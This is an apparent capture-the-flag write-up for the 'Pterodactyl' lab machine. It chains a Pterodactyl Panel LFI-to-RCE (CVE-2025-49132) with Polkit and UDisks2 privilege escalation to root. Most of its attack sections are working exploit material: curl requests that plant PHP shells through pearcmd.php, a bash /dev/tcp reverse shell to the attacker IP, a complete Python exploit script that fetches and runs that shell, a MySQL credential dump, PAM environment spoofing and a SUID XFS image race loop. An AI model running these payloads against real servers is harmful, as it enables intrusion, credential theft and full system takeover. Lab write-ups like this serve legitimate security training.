# Pterodactyl Panel RCE (CVE-2025-49132)

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

> **Target:** `panel.pterodactyl.htb` (add to `/etc/hosts` with the target IP)

## Summary of Attack Chain

| Step | User / Access         | Technique Used                             | Result                                                                                       |
| :--: | :-- | :-- | :- |
|   1  | N/A (Unauthenticated) | **Network scanning & subdomain discovery** | Identified `panel.pterodactyl.htb`; discovered `phpinfo.php` and PEAR installation.          |
|   2  | N/A (Web access)      | **LFI analysis (CVE-2025-49132)**          | Identified file inclusion via `locale` and `namespace` parameters.                           |
|   3  | N/A (Web access)      | **PEAR RCE (pearcmd.php abuse)**           | Used `config-create` to write a PHP downloader to `/tmp/shell.php`.                          |
|   4  | wwwrun (RCE)          | **Reverse shell execution**                | Triggered downloader to fetch a bash script and established initial foothold.                |
|   5  | wwwrun                | **Database credential harvesting**         | Dumped MySQL database; extracted Argon2 hash for user `phileasfogg3`.                        |
|   6  | phileasfogg3 (SSH)    | **Lateral movement via SSH**               | Cracked hash with Hashcat, logged in via SSH, and retrieved **user.txt**.                    |
|   7  | phileasfogg3          | **Polkit session spoofing**                | Bypassed Polkit restrictions by overriding PAM environment to obtain “local” session status. |
|   8  | phileasfogg3          | **XFS image weaponization**                | Crafted malicious XFS v4 image using a prototype file containing a SUID bash binary.         |
|   9  | phileasfogg3          | **UDisks2 race condition (CVE-2025-6019)** | Exploited race during filesystem resize to prepare execution of the SUID payload.            |
|  10  | Root                  | **Privilege escalation (race win)**        | Executed SUID binary before unmount, spawning a root shell.                                  |
|  11  | Root                  | **Flag capture**                           | Retrieved **root.txt** from `/root/root.txt`.                                                |



# Offensive Operations

## 1. Enumeration & Reconnaissance

Initial port scanning reveals a standard web setup:

* **Port 22:** SSH
* **Port 80:** HTTP (Redirects to `pterodactyl.htb`)




[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/nmap_results.nmap "Nmap Results")



### Subdomain Discovery

Using `ffuf` to enumerate subdomains, we identify a critical asset:

```bash
$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt \
       -u http://pterodactyl.htb/ -H "Host: FUZZ.pterodactyl.htb" -fw 3
```



**Result:** `panel.pterodactyl.htb`



[Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/subdoamin.txt "Subdomain")

Further investigation of the panel reveals a `phpinfo.php` file, confirming that **PEAR** is installed and included in the PHP configuration. This is a significant finding, as it allows for `pearcmd` exploitation if LFI is present.

[Subdomain Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/PHP.html "PHP pearcmd")






## 2. Vulnerability Analysis

The vulnerability, **CVE-2025-49132**, exists in the way the panel handles the `locale` and `namespace` parameters. By manipulating these, an attacker can include arbitrary files or leverage PHP's internal tools.



### The Attack Vector: `pearcmd.php`

The goal is to use the LFI to call `pearcmd.php` and use its `config-create` function to write a malicious PHP shell to the disk.


## 3. Exploitation Strategy

Because the browser URL-encodes special characters (like `<` and `?`), we must use `curl` or a Python script to send raw payloads. The exploitation follows a four-stage process:

### Preparation

Create a simple reverse shell script (`rev.sh`) and host it locally.

```bash
echo "bash -i >& /dev/tcp/10.10.XX.XX/4444 0>&1" > rev.sh
python3 -m http.server 8081
```

[Reverse shell](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/rev.sh "Reverse shell")







[Dump Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/dumpDB.txt "Dump Results")

[Informational Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/pwn.txt "Informational Results")

[Informational Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/User_flag.txt "Informational Results")

### Staging the Downloader

We inject a PHP payload into a new configuration file (`/tmp/shell.php`) that uses `curl` to fetch our `rev.sh` from our attack machine.

```bash
curl -v -g "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&<?=system('curl\${IFS}10.10.XX.XX:8081/rev.sh\${IFS}-o\${IFS}/tmp/rev.sh')?>+/tmp/shell.php"
```


### Triggering the Download

We call the newly created `/tmp/shell.php` via the LFI to execute the `curl` command.

```bash
curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=shell"
```

[Curl -> Donwload Hit at Python server](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/donwloadshellonvictim.txt "Curl -> Donwload Hit at Python server")

### Execution

Finally, we overwrite `/tmp/shell.php` with a command to execute the downloaded `rev.sh` and trigger it again while listening on port 4444.

```bash
# Overwrite with execution payload
curl -v -g "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&<?=system('sh\${IFS}/tmp/rev.sh')?>+/tmp/shell.php"

# Trigger execution
curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../tmp&namespace=shell"

```

[Execution Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/overwrite_trigger.txt  "Execution Results")

[Shell Spawned](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/execute_revsehll.txt "Shell Spawned")


```Python
import requests
import time
import sys

#  CONFIGURATION 
TARGET = "http://panel.pterodactyl.htb"
ATTACKER_IP = "10.10.XX.XX"  # Your tun0 IP
HTTP_PORT = "8081"           # Port for python3 -m http.server
NC_PORT = "4444"             # Port for nc -lvnp
# 

def exploit():
    print(f"[*] Targeting: {TARGET}")
    print(f"[*] Ensure your HTTP server is on {HTTP_PORT} and Netcat on {NC_PORT}")

    # Stage 1: Write Downloader to /tmp/shell.php
    print("\n[*] Stage 1: Injecting downloader payload...")
    # Using URL-safe formatting for the PHP tags
    downloader = f"<?=system('curl${{IFS}}{ATTACKER_IP}:{HTTP_PORT}/rev.sh${{IFS}}-o${{IFS}}/tmp/rev.sh')?>"
    
    stage1_uri = (
        f"{TARGET}/locales/locale.json?+config-create+/"
        f"&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd"
        f"&{downloader}+/tmp/shell.php"
    )
    
    try:
        requests.get(stage1_uri)
        print("[+] Downloader staged.")
    except Exception as e:
        print(f"[-] Error staging downloader: {e}")
        return

    # Stage 2: Trigger the Download
    print("[*] Stage 2: Triggering curl to fetch rev.sh...")
    trigger_uri = f"{TARGET}/locales/locale.json?locale=../../../../../tmp&namespace=shell"
    requests.get(trigger_uri)
    time.sleep(1) # Wait for the download to complete

    # Stage 3: Write Executor to /tmp/shell.php
    print("[*] Stage 3: Overwriting with execution payload...")
    executor = "<?=system('sh${IFS}/tmp/rev.sh')?>"
    
    stage3_uri = (
        f"{TARGET}/locales/locale.json?+config-create+/"
        f"&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd"
        f"&{executor}+/tmp/shell.php"
    )
    
    try:
        requests.get(stage3_uri)
        print("[+] Executor staged.")
    except Exception as e:
        print(f"[-] Error staging executor: {e}")
        return

    # Stage 4: Pop Shell
    print("[!] Stage 4: Triggering reverse shell... CHECK YOUR LISTENER!")
    try:
        # We use a small timeout because the request hangs once the shell is established
        requests.get(trigger_uri, timeout=5)
    except requests.exceptions.ReadTimeout:
        print("[+] Success! Request timed out (standard for a reverse shell).")
    except Exception as e:
        print(f"[-] Execution triggered, but encountered: {e}")

if __name__ == "__main__":
    exploit()
```

[POC](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/poc.py "POC")



## Post-Exploitation

After the final trigger, the reverse shell connects back to the listener:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.xx.xx.xx] 54332
bash: no job control in this shell
www-data@pterodactyl:/var/www/html$ whoami
www-data
www-data@pterodactyl:/var/www/html$ cat /home/phileasfogg3/user.txt
[REDACTED_USER_FLAG]

```

# Post-Exploitation & Privilege Escalation

## Local Enumeration & Lateral Movement

After gaining an initial shell as `wwwrun` via the Pterodactyl LFI-to-RCE (CVE-2025-49132), we begin by enumerating the environment.

### User Flag

The user flag is located in the home directory of `phileasfogg3`.

```bash
$ cat /home/phileasfogg3/user.txt
<SNIP>

```



### Database Credential Harvesting

Checking the environment variables reveals database configuration details:

```bash
$ env
DB_HOST=127.0.0.1
DB_PORT=3306
DB_PASSWORD=PteraPanel
DB_DATABASE=panel
DB_USERNAME=pterodactyl

```




[.env](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/env.txt ".env")

We use these credentials to dump the user table from the local MySQL instance to find credentials for a lateral move.

```bash
$ mysql -h 127.0.0.1 -u pterodactyl -p'PteraPanel' --batch --skip-column-names -e "SELECT id,username,email,root_admin,password FROM panel.users"

```

[Credentials Dumped](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/cred.txt "Credentials Dumped")

The dump provides an Argon2 hash (ID 3200) for the user `phileasfogg3`. After cracking this hash with **Hashcat**, we successfully transition to a full SSH session.



```bash
ssh phileasfogg3@10.xx.xx.xx

```



## Privilege Escalation: Polkit Bypass (CVE-2025-6018)

Initial inspection of the OS release suggests vulnerability to a Polkit session bypass. To exploit the subsequent UDisks2 vulnerability, we first need to convince the system we are in an "active" local session.

### Spoofing the Session

By default, our SSH session is considered "remote," which restricts certain `gdbus` calls.

```bash
# Initial check returns 'challenge' (requires auth)
victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('challenge',)

```

We bypass this by overriding the PAM environment variables:

```bash
victim> { echo 'XDG_SEAT OVERRIDE=seat0'; echo 'XDG_VTNR OVERRIDE=1'; } > .pam_environment
victim> exit

```




Upon logging back in, the system treats us as a local console user:

```bash
# Now returns 'yes' (authorized)
victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('yes',)

```


## Root Escalation: UDisks2 Race Condition (CVE-2025-6019)

The core exploit involves a race condition in `udisks2` during a filesystem resize operation. When resizing, the daemon temporarily mounts the filesystem. If we can "win" the race by accessing the mount point before it unmounts, we can execute a SUID binary.

### Image Creation

Modern kernels (like Kali) often drop support for **XFS V4 (Legacy)**, which the target requires. To circumvent this, we build the malicious image directly on the target or via a Docker container running an older Debian version.

[Compressed Malicious Image](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Pterodactyl/xfs.image.7z.001  " Compressed Malicious Image")






#### Creating the Weaponized Image (via Prototype)

To ensure the SUID bit is correctly set, we use an XFS prototype file.

```bash
# Create the prototype
cat <<EOF > /tmp/root_proto.txt
dummy
0 0
d--755 0 0
bash -u-755 0 0 /bin/bash
$
EOF

# Build the image using native tools
/sbin/mkfs.xfs -f -p /tmp/root_proto.txt /tmp/exploit.img

```

*Note: The `-u-755` string length is critical to avoid "bad format string" errors.*

### Winning the Race (The Infinite Hammer Strategy)

We need two terminal windows for the race condition.

**Window 1: The Monitor**
This loop waits for the `udisks2` temporary mount to appear and immediately attempts to execute the SUID bash.

```bash
Victim Window 1> while true; do /tmp/blockdev*/bash -p && break; done 2>/dev/null
```

**Window 2: The Trigger**
First, we setup the loop device for our image.

```bash
Victim Window 2> udisksctl loop-setup -f /tmp/exploit.img
```

